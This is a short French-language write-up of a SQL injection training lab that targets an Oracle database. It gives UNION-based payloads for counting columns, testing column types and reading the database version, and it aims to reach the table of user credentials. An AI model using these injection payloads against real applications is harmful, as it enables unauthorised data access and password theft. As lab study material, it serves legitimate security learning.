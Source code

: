           DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

Même énoncé que le précédent lab, mais cette fois-ci pour Oracle.

On liste le nombre de colonnes et leurs compatibilités :

```
'ORDER BY 1--
'ORDER BY 2--
'UNION SELECT 'a','a' FROM dual--
```

2 colonnes, toutes deux compatibles.

L'énoncé précise le type de database, mais il n'est jamais inutile de vérifier par sécurité, ainsi que pour avoir la version :

'UNION SELECT banner,'a' FROM v$version--

La page retourne : Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

On peut dorénavant chercher dans la documentation les noms de colonne correspondant à all_tables et all_tab_columns


